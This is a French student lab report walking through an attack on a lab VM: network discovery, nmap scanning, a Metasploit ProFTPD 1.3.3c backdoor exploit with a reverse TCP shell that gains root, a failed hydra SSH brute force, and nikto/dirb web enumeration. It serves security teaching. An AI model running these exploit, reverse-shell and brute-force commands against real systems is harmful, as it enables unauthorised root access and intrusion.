


# Rapport du TP2

Comme d'habitude on commence par scanner toutes les machines sur le réseau
`sudo netdiscover -r 10.0.2.0/24`

Cela nous permet d'obtenir l'adresse ip de la machine que l'on souhaite attaquer : 10.0.2.6/24

on commence par faire une analyse détaillée de tous les ports ouverts.
`nmap -sC -sV -A -p- 10.0.2.6`

On voit que 3 ports sont ouverts : le 21, le 22 et le 80

## Port 21

Le port 21 utilise ftp. On peut donc essayer de se connecter en ftp (avec l'identifiant et le mdp 'ftp' ou 'anonyme') ce qui permettrait de se connecter si le serveur autorisait les connexion en mode anonyme.
`ftp 10.0.2.6`
Malheureusement, le serveur n'autorise as les connexion en mode anonyme et la connexion echoue.

Dans l'analyse des ports, on remarque que la version est "ProFTPD 1.3.3c"

On peut essayer d'utiliser `msfconsole` pour accéder au shell metasploit qui permet de rechercher des vulnérabilités.

`search PROFTPD 1.3.3c`

Une seule vulnérabilité est connue. On tape la commande `use 0` pour séléctionner le seul et unique exploit ("exploit/unix/ftp/proftpd_133c_backdoor").

En accédant aux `options`, on constate que rhost n'est pas configuré. rhosts permet de spécifier l'ip de la cible. On va donc lui attribué sa valeur "10.0.2.6".
`set rhost 10.0.2.6`

Rport est correctement configuré pour le port 21, on y touche pas.

On veut utiliser un reverse shell pour tenter de se connecter à la machine cible. On affiche donc les payloads disponibles.

Dans notre cas, on va faire une reverse TCP connexion donc on séléctionne le payload 4 `set payload 4`.

Dans les options, Lhost est requis mais n'est pas défini. Il faut donc lui assigner l'ip de la machine hôte.
`set lhost 10.0.2.4`

Avec la commande `run`, on peut maintenant exploiter la faille de sécurité et se connecter au reverse shell.

On constate qu'une connexion est bien ouverte (10.0.2.4:4444 -> 10.0.2.6:34682) et si je tape la commande `whoami`, je suis directement utilisateur root. De plus, Je peux ouvrir un shell et faire toutes les manipulations souhaitées sur la machine cible en tant que root.

## Port 22

Le port 22 est associé à ssh donc on va faire une attaque brut force en utilisant hydra.
`sudo hydra -l root -p /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://10.0.2.6` (ip différentes du reste du tp car fais à un autre moment et elle avait changé entre temps)

Sans succès...

## Port 80

Il s'agit d'un serveur web, on peut se rendre à l'url `10.0.2.6`
On tombe sur une page web avec rien de spécial dessus.

En inspectant le code source de la page je ne vois rien non plus.

Je peux faire un scan nikto

`nikto -h 10.0.2.6`

Je peux également utliser dirb.

`dirb http://10.0.2.6`

On découvre dans les 2 cas un dossier "/secret"

On se rend donc à l'url `http://10.0.2.6/secret`

On tombe sur un "blog secret"

Lorsque l'on clique sur les lien, cela nous redirige vers une page inacessible et l'url change `vtcsec/...`

Après avoir réussi à accéder à la machine en tant que root en passant par le port 21, je me rend compte que "vtcsec" correspond bien au nom d'utilisateur de la machine cible.

